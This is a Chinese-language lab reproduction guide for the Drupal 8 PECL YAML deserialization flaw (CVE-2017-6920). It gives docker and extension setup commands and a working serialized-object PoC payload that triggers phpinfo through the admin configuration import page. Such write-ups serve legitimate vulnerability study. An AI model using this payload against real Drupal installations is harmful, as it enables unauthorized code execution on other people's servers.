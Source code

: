 # （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2892](https://www.zhihuifly.com/t/topic/2892)

# （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞

## 一、漏洞简介

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

## 二、漏洞影响

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

## 三、复现过程

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

```
docker-compose up -d 
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

*   先安装 `yaml` 扩展

```
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER 
```

*   1.登录一个管理员账号
*   2.访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import`
*   3.如下图所示，`Configuration type` 选择 `Simple configuration`，`Configuration name` 任意填写，`Paste your configuration here` 中填写PoC如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}" 
```

![image](img/30a1eb918e33d8d867e6a975c6fd2de4.png)

*   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![image](img/89ae0ca163026036a79df52320dd4e35.png)

*   Tips：
    *   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在 `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0` 则可以复现成功，故基础镜像选择`drupal:8.3.0`

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2017-6920/